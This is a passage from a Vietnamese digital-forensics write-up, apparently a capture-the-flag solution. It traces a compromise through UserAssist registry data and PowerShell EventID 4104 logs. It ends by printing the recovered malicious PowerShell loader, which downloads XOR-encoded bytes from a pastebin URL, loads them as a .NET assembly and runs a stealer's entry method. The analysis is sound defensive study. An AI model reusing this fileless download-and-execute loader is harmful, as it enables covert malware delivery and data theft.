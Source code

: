 ![image](https://hackmd.io/_uploads/SkL2bVU0ll.png)

Cũng không thấy gì đáng chú ý

Tiếp theo thì thử dùng plugin **userassist**. Plugin này đọc dữ liệu từ UserAssist keys trong file NTUSER.DAT để hiển thị chương trình hoặc file mà người dùng đã thực sự chạy

📂 Vị trí Registry mà plugin truy cập
userassist plugin phân tích các khóa:
*"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist\""*

![Screenshot 2025-10-22 173526](https://hackmd.io/_uploads/Byf14NLCgg.png)

Ta có thể thấy *powershell.exe* đã được dùng, hmmm có vẻ khá sus. Phải kiểm tra xem powershell đã được dùng để thực thi cái gì.

rất may là tác giả đã dump cho ta khá đầy đủ, bao gồm các log của Windows Events, đặc biệt là *Microsoft-Windows-PowerShell/Operational* (chuyên ghi lại hoạt động thực thi của PowerShell)

![image](https://hackmd.io/_uploads/HJ7RS4URgl.png)

chúng ta sẽ đặc biệt để ý đến **EventID 4104**, vì nó ghi nội dung script hoặc đoạn mã đã chạy (rất chi tiết — thường chứa payload của malware).

Chúng ta sẽ dùng tool **EvtxECmd** trong bộ công cụ điều tra số của *Eric Zimmerman*, để xuất các **EventID 4104** dưới dạng file .csv để dễ dàng quan sát hơn
![image](https://hackmd.io/_uploads/HkatiE8Aee.png)

ở đây chúng ta thấy một event cực kì đáng nghi
![Screenshot 2025-10-22 181852](https://hackmd.io/_uploads/rJs0a4LClg.png)

để mình viết lại cho dễ nhìn
```
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$TypeName = "StealerJanai.core.RiderKick"
$MethodName = "Run"
try {
    $WebClient = New-Object System.Net.WebClient
    $encodedContent = $WebClient.DownloadString($AssemblyUrl)
    $WebClient.Dispose()

    $hexValues = $encodedContent.Trim() -split ',' | Where-Object { $_ -match '^0x[0-9A-Fa-f]+$' }

    $encodedBytes = New-Object byte[] $hexValues.Length
    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        $encodedBytes[$i] = [Convert]::ToByte($hexValues[$i].Trim(), 16)
    }

    $originalBytes = New-Object byte[] $encodedBytes.Length
    for ($i = 0; $i -lt $encodedBytes.Length; $i++) {
        $originalBytes[$i] = $encodedBytes[$i] -bxor $XorKey
    }

    $assembly = [System.Reflection.Assembly]::Load($originalBytes)

    if ($TypeName -ne "" -and $MethodName -ne "") {
        $targetType = $assembly.GetType($TypeName)
        $methodInfo = $targetType.GetMethod($MethodName, [System.Reflection.BindingFlags]::Static -bor [System.Reflection.BindingFlags]::Public)
        $methodInfo.Invoke($null, $null)
    }
} catch {
    exit 1
}

```